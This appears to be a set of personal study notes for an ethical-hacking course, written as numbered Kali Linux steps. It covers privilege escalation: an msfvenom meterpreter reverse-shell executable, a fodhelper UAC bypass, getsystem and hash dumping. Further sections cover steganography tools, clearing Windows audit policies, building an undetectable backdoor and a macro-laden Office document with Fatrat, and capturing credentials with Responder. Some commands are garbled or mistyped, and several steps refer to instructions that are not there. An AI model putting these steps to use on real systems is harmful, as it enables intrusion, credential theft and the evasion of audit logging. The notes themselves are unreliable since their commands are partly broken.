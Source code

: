 **Escalating privs** 
1) On kali
    1) `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86/shikata_ga_nai -b "\x00" LHOST=victim_IP -f exe > Desktop/exploit.exe`
    2) repeat the steps 5 to 7 and replace Test.exe with exploit.exe
    3) `ls -la /var/www/html/ | grep share`
    4) service apache2 start
    5) repeat steps 10-11 and
    6) shell background
    7) use exploit/windows/local/bypassuac_fodhelper
    8) show options set payload w/m/r_tcp
    9) then getsystem
    10) run post  windows/gather/smart_hashdump 

**Steganography**
Tools
1) Snow
    1) create a file readme.txt
    2) then using snow type
        1) `snow -C "My swiss bank number is  34567" -p "magic" readme.txt readme2.txt ` here magic is the password
    2) to read the file readme2.txt
            1) `snow -C -p "magic" readme.txt `
2) **Openstego**
 for hiding
    1) choose the file to be encrypted
    2) choose the document to be encrypted in
    3) done
for extracting
    1) choose the encrypted file choose the location done
3) **QuickStego**
    1) for hiding again choose the image , choose the text file done
    2) for extracting just open the encrypted image
4) **Auditpol**
	 1) in CMD type `auditool /get /category:*`
	 2) To enable the audit policies type `auditpol /set /category:"system","account login" /success:enable /failure:enable`
	 3) to clear all the audit policies type the following command `auditpol /clear /y`
5) **CovertTCP**
	1) in kali
	2) create folder in desktop
	3) type  `echo "Secret Messsage" > message.txt`
	4) go to files -> other locations -> in address field type `smb://IP/`
	5) timming on youtube 1:50:00 -- 2:12:00
6) **Fatrat**
	1) choose 6 create a Fud  backdoor 1000% with pwnWinds
	2) the choose 3 exe with apache + powershell
	3) for LHOST type kali IP and LPORT 4444
	7) in base files enter payload
	8) choose `windows/meterpreter/reverse_tcp`
	9) press enter 2-3 times then press 8 to go to main menu
	10) choose 7 create backdoor with Ms office
	11) then choose 2 microsoft office macro on windows
	12) Set kali IP and port number
	13) for base name in output file type badDoc
	14) type y
	15) in the Path /root/Fatrat/output/payload.exe
	16) choose payload as step 5
	17) create /var/www/html/share then similar steps service apache2 start ...............
**Responder** 
1) responder -I eth0
2) go the windows run `\\CEH-TOOLS`
## Social Engineering 
